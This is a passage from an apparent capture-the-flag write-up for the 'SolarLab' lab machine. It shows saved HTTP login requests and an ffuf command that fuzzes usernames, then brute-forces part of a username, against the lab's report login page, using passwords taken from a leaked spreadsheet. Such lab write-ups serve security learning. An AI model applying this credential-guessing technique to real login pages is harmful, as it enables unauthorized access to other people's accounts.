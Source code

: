 Save the request file and FUZZ usernames with **ffuf**

> `login.req`

```
POST /login HTTP/1.1
Host: report.solarlab.htb:6791
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://report.solarlab.htb:6791
Connection: close
Referer: http://report.solarlab.htb:6791/login
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.ZkBzEQ.bX45-xQXXAcd0jOsFqlfSsPLdOk
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

username=FUZZ&password=d398sadsknr390
```

```bash
ffuf -c --request-proto http -request login.req -w usernames_xlsx.txt -fs 2133
```

![](/assets/obsidian/bdb9ad9a424774b72c902919c26b3057.png)

Tried all passwords from `details-file.xlsx` on those two usernames, but none succeed

- The username format is `<First Name><First character of last name>`

Since I know `Blake`'s credential is valid with **netexec**, I will brute force the first character of `Blake`'s last name

> `Blake`'s last name can also be found from the static site on port `80`
{: .prompt-tip }

> `login.req`

```bash
POST /login HTTP/1.1
Host: report.solarlab.htb:6791
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://report.solarlab.htb:6791
Connection: close
Referer: http://report.solarlab.htb:6791/login
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.ZkBzEQ.bX45-xQXXAcd0jOsFqlfSsPLdOk
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

username=BlakeFUZZ&password=d398sadsknr390
```
